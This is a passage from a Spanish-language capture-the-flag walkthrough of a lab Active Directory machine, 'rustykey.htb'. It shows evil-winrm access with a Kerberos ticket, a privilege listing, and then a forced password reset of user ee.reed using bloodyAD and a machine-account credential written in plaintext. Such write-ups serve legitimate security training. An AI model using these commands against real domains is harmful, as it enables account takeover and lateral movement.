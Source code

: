 y volvemos intentar acceder via `winrm`

```bash
evil-winrm -i dc.rustykey.htb -u 'bb.morgan' -r rustykey.htb
```
```bash
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> 


```

![image (3)](https://github.com/user-attachments/assets/f1a22afc-0242-44f2-b15f-9c09bb4c11aa)

obtenemos la primera flag y un archivo pdf que descargamos para leer

![image](https://github.com/user-attachments/assets/b534c9cf-6edd-4e61-9681-ae14f0c5821b)


lo que puedo deducir es que se le conseden permisos temporales privilegiados al grupo `support` y si regresamos a `bloodhount` vemos que el usuario `ee.reed` pertenece a ese grupo

![image](https://github.com/user-attachments/assets/3e9149fc-59d9-401b-b876-28ee7fd689bd)

por lo que podriamos cambiar la password de este usuario e intentar acceder via winrm como con el usuario `bb.morgan`

>>> Seteamos la variable KRB5CCNAME con el ticket de IT-COMPUTER3
```bash
export KRB5CCNAME=IT-COMPUTER3\$.ccache
```

>>> Cambiamos la password del usuario
```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed 'Testing123@'
```
